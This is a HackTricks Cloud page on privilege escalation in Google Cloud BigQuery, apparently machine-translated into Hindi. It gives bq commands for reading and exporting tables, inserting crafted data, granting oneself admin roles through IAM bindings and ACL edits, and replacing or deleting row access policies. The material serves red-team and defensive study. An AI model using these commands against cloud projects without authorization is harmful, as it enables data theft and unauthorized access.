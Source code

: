 # GCP - BigQuery Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## BigQuery

BigQuery के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../gcp-services/gcp-bigquery-enum.md" %}
[gcp-bigquery-enum.md](../gcp-services/gcp-bigquery-enum.md)
{% endcontent-ref %}

### Read Table

BigQuery तालिका के अंदर संग्रहीत जानकारी को पढ़ने से **संवेदनशील जानकारी** मिलना संभव हो सकता है। जानकारी तक पहुँचने के लिए आवश्यक अनुमति **`bigquery.tables.get`**, **`bigquery.jobs.create`** और **`bigquery.tables.getData`** है:
```bash
bq head <dataset>.<table>
bq query --nouse_legacy_sql 'SELECT * FROM `<proj>.<dataset>.<table-name>` LIMIT 1000'
```
### डेटा निर्यात करें

यह डेटा तक पहुँचने का एक और तरीका है। **इसे एक क्लाउड स्टोरेज बकेट में निर्यात करें** और **जानकारी के साथ फ़ाइलें डाउनलोड करें।**\
इस क्रिया को करने के लिए निम्नलिखित अनुमतियों की आवश्यकता है: **`bigquery.tables.export`**, **`bigquery.jobs.create`** और **`storage.objects.create`**।
```bash
bq extract <dataset>.<table> "gs://<bucket>/table*.csv"
```
### Insert data

यह संभव है कि **कुछ विश्वसनीय डेटा** को Bigquery तालिका में **किसी अन्य स्थान में एक कमजोरियों का लाभ उठाने के लिए** पेश किया जाए। यह **`bigquery.tables.get`**, **`bigquery.tables.updateData`** और **`bigquery.jobs.create`** अनुमतियों के साथ आसानी से किया जा सकता है:

{% code overflow="wrap" %}
```bash
# Via query
bq query --nouse_legacy_sql 'INSERT INTO `<proj>.<dataset>.<table-name>` (rank, refresh_date, dma_name, dma_id, term, week, score) VALUES (22, "2023-12-28", "Baltimore MD", 512, "Ms", "2019-10-13", 62), (22, "2023-12-28", "Baltimore MD", 512, "Ms", "2020-05-24", 67)'

# Via insert param
bq insert dataset.table /tmp/mydata.json
```
{% endcode %}

### `bigquery.datasets.setIamPolicy`

एक हमलावर इस विशेषाधिकार का दुरुपयोग करके **अपने लिए और अधिक अनुमतियाँ** एक BigQuery डेटासेट पर दे सकता है:
```bash
# For this you also need bigquery.tables.getIamPolicy
bq add-iam-policy-binding \
--member='user:<email>' \
--role='roles/bigquery.admin' \
<proj>:<dataset>

# use the set-iam-policy if you don't have bigquery.tables.getIamPolicy
```
### `bigquery.datasets.update`, (`bigquery.datasets.get`)

बस यह अनुमति **एक BigQuery डेटासेट पर अपने एक्सेस को ACLs को संशोधित करके अपडेट करने की अनुमति देती है** जो यह दर्शाती है कि कौन इसे एक्सेस कर सकता है:
```bash
# Download current permissions, reqires bigquery.datasets.get
bq show --format=prettyjson <proj>:<dataset> > acl.json
## Give permissions to the desired user
bq update --source acl.json <proj>:<dataset>
## Read it with
bq head $PROJECT_ID:<dataset>.<table>
```
### `bigquery.tables.setIamPolicy`

एक हमलावर इस विशेषाधिकार का दुरुपयोग करके **अपने लिए और अधिक अनुमतियाँ** एक BigQuery तालिका पर दे सकता है:
```bash
# For this you also need bigquery.tables.setIamPolicy
bq add-iam-policy-binding \
--member='user:<email>' \
--role='roles/bigquery.admin' \
<proj>:<dataset>.<table>

# use the set-iam-policy if you don't have bigquery.tables.setIamPolicy
```
### `bigquery.rowAccessPolicies.update`, `bigquery.rowAccessPolicies.setIamPolicy`, `bigquery.tables.getData`, `bigquery.jobs.create`

दस्तावेज़ों के अनुसार, उल्लेखित अनुमतियों के साथ **एक पंक्ति नीति को अपडेट करना संभव है।**\
हालांकि, **cli `bq` का उपयोग करते समय** आपको कुछ और चाहिए: **`bigquery.rowAccessPolicies.create`**, **`bigquery.tables.get`**.

{% code overflow="wrap" %}
```bash
bq query --nouse_legacy_sql 'CREATE OR REPLACE ROW ACCESS POLICY <filter_id> ON `<proj>.<dataset-name>.<table-name>` GRANT TO ("<user:user@email.xyz>") FILTER USING (term = "Cfba");' # A example filter was used
```
{% endcode %}

यह पंक्ति नीतियों की गणना के आउटपुट में फ़िल्टर आईडी खोजने के लिए संभव है। उदाहरण:
```bash
bq ls --row_access_policies <proj>:<dataset>.<table>

Id        Filter Predicate            Grantees              Creation Time    Last Modified Time
------------- ------------------ ----------------------------- ----------------- --------------------
apac_filter   term = "Cfba"      user:asd@hacktricks.xyz   21 Jan 23:32:09   21 Jan 23:32:09
```
यदि आपके पास **`bigquery.rowAccessPolicies.delete`** है बजाय `bigquery.rowAccessPolicies.update` के, तो आप नीति को बस हटा भी सकते हैं:

{% code overflow="wrap" %}
```bash
# Remove one
bq query --nouse_legacy_sql 'DROP ALL ROW ACCESS POLICY <policy_id> ON `<proj>.<dataset-name>.<table-name>`;'

# Remove all (if it's the last row policy you need to use this
bq query --nouse_legacy_sql 'DROP ALL ROW ACCESS POLICIES ON `<proj>.<dataset-name>.<table-name>`;'
```
{% endcode %}

{% hint style="danger" %}
पंक्ति पहुंच नीतियों को बायपास करने का एक और संभावित विकल्प प्रतिबंधित डेटा के मान को बस बदलना होगा। यदि आप केवल तब देख सकते हैं जब `term` `Cfba` है, तो बस तालिका के सभी रिकॉर्ड को `term = "Cfba"` में संशोधित करें। हालांकि, यह bigquery द्वारा रोका गया है।
{% endhint %}

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाओं**](https://github.com/sponsors/carlospolop) की जांच करें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **हमें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)** पर फॉलो करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
